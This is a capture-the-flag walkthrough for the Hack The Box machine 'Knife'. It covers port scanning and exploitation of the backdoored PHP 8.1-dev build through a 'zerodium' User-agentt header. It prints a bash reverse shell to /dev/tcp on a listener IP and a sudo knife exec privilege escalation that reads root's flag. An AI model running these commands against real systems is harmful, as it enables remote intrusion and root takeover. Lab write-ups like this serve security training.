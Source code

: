 
#Linux #CTF #HTB 

OS: Linux 
IP : 10.10.10.242
Rank : Easy 

## setup 
```bash
echo "10.10.10.242 knifte.htb" >> /etc/hosts
```


## Recon 

Lets start firing up a nmap scan 
```bash
nmap -sV -sC  -o nmapscan knife.htb

Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)  
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)  
|\_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
| http-methods:    
|\_  Supported Methods: GET HEAD POST OPTIONS  
|\_http-server-header: Apache/2.4.41 (Ubuntu)  
|\_http-title:  Emergent Medical Idea  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
```


We see a HTTP port is open, lets go to it. 

![[Pasted image 20210523053510.png]]

A very simple HTTP page, nothing is clickable, lets try different file type. 
We can see it uses PHP, time to emulate the site for sub directory

````bash
gobuster dir -u https://knife.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -t 50 -k
````

Nothing of value here.. 

It time for the most powerful tool *google*  lets google the Apache version for vulnabilities. 
Going to apache site we learn of two vulnabilities that have been fixed in version *2.4.42*
[Sorce](https://httpd.apache.org/security/vulnerabilities_24.html)
One of them look interesting *CVE-2020-1934* We learn that the website must have the *mod\_proxy\_ftp* mod on the website to be vulnerable. 
Nothing of value here.

Fire-up burp and lets see what the response look like from there. 

![[Pasted image 20210523062802.png]]

we learn that is uses *php/8.1*, lets try google it for any information, after alot of googling I came across a post about a backdoor created by hacker by adding code to the source. 
[source](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/)


We learn that we can send a request with *User-agentt* that start with *zerodium*  it will then execute every php code after the code word.  

![[Pasted image 20210523065714.png]]

Fire up a netcat listner 

```bash
nc -lvnp 4444
```

As you can see we are able to execute code on the machine and get it to fire up a netcat to our machine. lets create a backdoor using netcat, insert your IP. 
```bash
'bash -c "bash -i >& /dev/tcp/10.10.14.19/4444 0>&1"'
```

And we got user access, let grap the flag

```bash
cat /home/james/user.txt
```

## Privilege escalation

Running *sudo -l* we learn that we are allow to execute knife as admin, which a tool for manage chef instance. 

[documentation](https://docs.chef.io/workstation/knife/)

By using *knife exec* we are allow to execute ruby scripts and it our case ruby code as root. 
lets create a small script which read the flag. 
 
```bash
echo 'print File.read("/root/root.txt")' > test.rb
sudo knife exec test.rb
```

And we got root.
